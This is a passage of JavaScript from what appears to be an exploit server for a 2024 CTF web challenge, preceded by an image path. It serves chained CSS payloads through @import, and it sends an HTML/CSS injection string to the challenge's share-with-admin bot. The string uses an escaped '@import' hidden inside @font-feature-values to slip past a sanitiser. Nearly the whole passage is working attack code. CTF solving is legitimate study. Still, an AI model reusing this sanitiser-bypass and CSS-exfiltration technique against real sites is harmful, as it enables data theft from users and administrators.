 ``` js
    }
    
  }
  res.send('ok')
})

app.get('/payload1', (req, res) => {
  console.log('payload1')
  res.setHeader('Content-Type', 'text/css')
  res.send(payload1)
})

app.get('/payload2', (req, res) => {
  console.log('payload2')
  res.setHeader('Content-Type', 'text/css')
  res.send(payload2)
})

app.get('/payload3', (req, res) => {
  console.log('payload3')
  res.setHeader('Content-Type', 'text/css')
  res.send(payload3)
})

app.get('/payload', (req, res) => {
  console.log('payload')
  let payload = `@import url("${BASE}/payload1");\n@import url("${BASE}/payload2");\n@import url("${BASE}/payload3");`
  res.setHeader('Content-Type', 'text/css')
  res.send(payload)
})

app.listen(port, async () => {
  console.log(`Example app listening on port ${port}`)
  
  setTimeout(() => {
    sendToBot(`<style>@font-feature-values 'lol; @\\\\0069mport "${BASE}/payload";p' {}</style><p class="p1"></p><p class="p2"></p><p class="p3"></p>`)
  }, 1000)
})

function sendToBot(payload) {
  fetch('https://in-the-shadows-web.2024.ctfcompetition.com/share-with-admin?body=' + encodeURIComponent(payload)).then(r => r.text()).then(console.log)
}
```
